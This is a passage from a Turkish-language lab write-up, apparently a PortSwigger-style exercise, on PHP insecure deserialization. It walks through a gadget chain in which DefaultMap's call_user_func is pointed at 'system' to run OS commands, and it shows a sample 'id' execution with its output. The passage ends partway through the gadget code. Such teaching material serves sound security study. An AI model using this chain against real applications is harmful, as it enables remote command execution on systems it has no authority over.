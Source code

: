 Kodu baştan sona okuduğumuzda hedefimizin bu kısım olduğunu anlıyoruz:

```php
class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}
```

Bu kısımda kullanılan `‘call_user_func’` fonksiyonuna verdiğiniz string değer çalıştırılabilir hale gelmektedir. Yani işletim sisteminde komut çalıştırabilir hale gelirsiniz. Örneğin bir deneme yapacak olursak aşağıdaki kodun çalıştığını görebiliriz;

```php
call_user_func('system','id')
```

Output:

```php
uid=1000(ilker) gid=984(users) groups=984(users),108(vboxusers),150(wireshark),960(libvirt),961(docker),992(kvm),998(wheel)
```

![Untitled](0x0D-e7c75cda4af14d9f8c7d57729ec14f3a/Untitled-17.png)

Burada kaynak kodu incelediğimizde **`build_product`** fonksiyonu Deserialization zafiyeti potansiyeli taşıyan bir kısım içeriyor. **`__wakeup`** metodunda çağrıldığı için, bu fonksiyonun işleyişi kontrolsüz bir şekilde yeniden başlatılabilir ve bu da güvenlik riski oluşturabilir.

**`build_product`** fonksiyonu, **`Product`** sınıfını oluştururken **`$this->desc`** özelliğini kullanıyor. Bu, **`$desc`** özelliğinin serialize edilen veriden geri dönüştürülerek kullanılmasına olanak tanır. Eğer serialize edilen veri manipüle edilirse ve bu manipülasyon, **`__wakeup`** ve **`__sleep`** metodlarını etkilerse, **`build_product`** fonksiyonu beklenmeyen sonuçlar üretebilir.

```php
class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new DefaultMap("system");//new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
```